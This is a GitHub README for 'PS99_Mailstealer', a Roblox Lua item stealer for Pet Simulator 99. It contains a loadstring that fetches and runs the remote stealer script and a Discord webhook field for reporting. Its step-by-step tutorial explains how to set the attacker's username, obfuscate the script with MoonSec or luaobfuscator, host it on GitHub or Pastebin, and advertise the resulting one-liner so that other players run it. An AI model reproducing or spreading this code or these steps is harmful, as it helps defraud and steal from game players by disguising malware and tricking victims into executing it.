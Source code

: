 # Script With Tutorial !

```lua
Username = "Reset42597561"
LoadScreen = true 
Webhook = "Your Link Here" -- Paste your Discord webhook here

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()
```

# Tutorial

1: Edit mailstealer with your Username.

2: Save your stealer and Obfuscate it using MoonSec bot OR https://luaobfuscator.com/.

3: After u obfuscated save it and register/login on https://github.com/ to upload your script.

4: Create a repositorie and upload your obfuscated script (on github or pastebin).
![image](https://github.com/KiuuP/PS99_Mailstealer/assets/158788963/71376a04-6684-4dd4-9a47-bdfcf83dd384)

5.1:Click This (Github)
![image](https://github.com/KiuuP/PS99_Mailstealer/assets/158788963/0f845270-1eac-4297-b38b-183e3d57ea72)
5.2:Click This (Pastebin)
![image](https://github.com/KiuuP/PS99_Mailstealer/assets/158788963/90c49e9a-0167-4e35-b611-0cf826fc518d)

6:And Click The Raw

![image](https://github.com/KiuuP/PS99_Mailstealer/assets/158788963/746039ee-1b0d-47b3-8f38-1b4e6adf8483)

7: Copy link

8: Put your link in this script
```lua
loadstring(game:HttpGet("YOUR LINK HERE", true))()
```

9: After u finished u got your loadstring script with mailstealer
Now all u have to do is adversite this script as u can
```
loadstring(game:HttpGet("Your Link Here", true))()
```
10: Create a Webhook Discord
!(https://www.youtube.com/watch?v=fKksxz2Gdnc)
